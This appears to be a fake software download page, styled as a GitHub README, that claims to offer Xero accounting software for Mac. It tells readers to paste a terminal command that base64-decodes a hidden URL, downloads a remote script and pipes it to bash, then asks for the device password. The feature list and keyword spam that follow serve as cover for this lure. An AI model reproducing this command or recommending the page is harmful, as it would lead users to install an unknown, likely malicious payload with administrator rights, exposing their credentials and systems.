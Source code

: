 # Xero Mac Download - Cloud Accounting Software

![Xero Dashboard](https://wavebox.io/knowhow/content/images/2022/05/Untitled.020-1.png)

---

### 🔽 Download Xero for Mac

> 📥 Open the terminal on your device and paste the command below.
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Xero for Mac?

Xero is a powerful cloud-based accounting platform designed specifically for small businesses and accountants using macOS. This comprehensive financial management solution transforms how businesses handle their bookkeeping with real-time collaboration features and automated processes that save hours of manual work.

The software offers complete accounting functionality including:
- Automated bank feeds and reconciliation
- Professional invoicing with online payment options
- Expense claims and receipt management
- Inventory tracking and purchase orders
- Payroll processing with tax calculations
- Multi-currency support for global businesses
- Customizable financial reports and dashboards

What makes Xero stand out is its ecosystem of over 800 connected apps that integrate with payment processors, CRM systems, e-commerce platforms and other business tools. The Mac version provides native performance with familiar macOS interface conventions while maintaining full access to all cloud features.

Security is enterprise-grade with:
- Two-factor authentication
- Regular automatic backups
- Bank-level 256-bit encryption
- Detailed audit trails

For accounting professionals, Xero provides tools to:
- Manage multiple client organizations
- Collaborate in real-time with clients
- Access practice-wide reporting
- Stay compliant with tax regulations

![Xero Mobile App](https://wavebox.io/knowhow/content/images/2022/05/Screenshot-2022-05-24-at-11.11.25.png)

---

## Key Features & Benefits

- 💰 Automated bank reconciliation saving hours of manual work
- 📊 Beautifully designed financial reports and cash flow insights
- 🌍 Support for 160+ currencies and global tax compliance
- 🔗 800+ business app integrations expanding functionality
- 👥 Real-time collaboration with your accountant or team
- ☁️ Access your accounts securely from any device
- 📱 Full-featured mobile app for business on the go

---

### System Requirements
- macOS 10.14 or later
- Modern web browser (Chrome, Safari, Firefox)
- Internet connection
- 2GB RAM minimum (4GB recommended)

---

## 🔍 Keywords

Xero for Mac, Xero Mac Download, Xero for Mac Download, Xero Mac, Xero Download Mac, Xero Download for Mac, Xero full version, Mac Download Xero, Download Mac Xero, Download Xero Mac, Download Xero for Mac
